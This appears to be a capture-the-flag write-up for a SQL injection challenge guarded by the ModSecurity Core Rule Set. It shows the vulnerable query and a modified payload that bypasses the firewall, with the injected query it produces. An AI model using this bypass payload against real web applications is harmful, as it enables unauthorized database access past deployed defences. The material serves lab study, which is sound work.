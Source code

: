 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 34
tags: [SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a437eb74-eff7-45be-bd3f-86e2c56d7dc3)

We are provided with the SQL query:

```sql
SELECT id FROM prob_death WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')
```

In this challenge as well, the Mod Security CRS is being used.

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue.

![2](https://github.com/Kunull/Write-ups/assets/110326359/31d7abb4-4869-4388-8db4-c0c69df40d67)

However, we have to modify the payload slightly.

```
-1'<@=1 OR id LIKE 0x61646d696e OR '
```

&nbsp;

If we provide the following URI parameter:

```
?id=-1'<@=1 OR id LIKE 0x61646d696e OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_death WHERE id='-1'<@=1 OR id LIKE 0x61646d696e OR '' AND pw=md5('')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/b1beb237-820e-4e76-a770-5468e73b2512)
